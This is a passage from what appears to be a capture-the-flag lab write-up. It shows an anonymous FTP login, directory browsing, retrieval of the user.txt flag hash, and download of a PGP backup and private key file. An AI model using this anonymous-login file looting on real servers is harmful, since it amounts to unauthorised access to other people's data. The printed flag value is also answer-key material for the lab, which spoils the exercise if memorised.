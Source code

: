 - **We found that we can login to ftp with anonymous login and the password should be the default  `anonymous`**

### FTP login

```sh
ftp> cd root
550 Failed to change directory.
ftp> cd home 
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||29587|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
c226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35851|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt -
remote: user.txt
229 Entering Extended Passive Mode (|||57756|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
606083fd33beb1284fc51f411a706af8
226 Transfer complete.
33 bytes received in 00:00 (0.18 KiB/s)

```

> ## user.txt : 606083fd33beb1284fc51f411a706af8``

- **There is a directory called notread . The name seems suspicious to me**
```sh
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||9133|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> get backup.pgp 
local: backup.pgp remote: backup.pgp
229 Entering Extended Passive Mode (|||8367|)
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
100% |***************************************************************************************************************************|   524       99.01 KiB/s    00:00 ETA
226 Transfer complete.
524 bytes received in 00:00 (2.80 KiB/s)
ftp> get private.asc
local: private.asc remote: private.asc
229 Entering Extended Passive Mode (|||57295|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |***************************************************************************************************************************|  3762       29.40 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (18.34 KiB/s)

```
- **We found two files there**
    - `backup.pgp`
    - `private.asc`
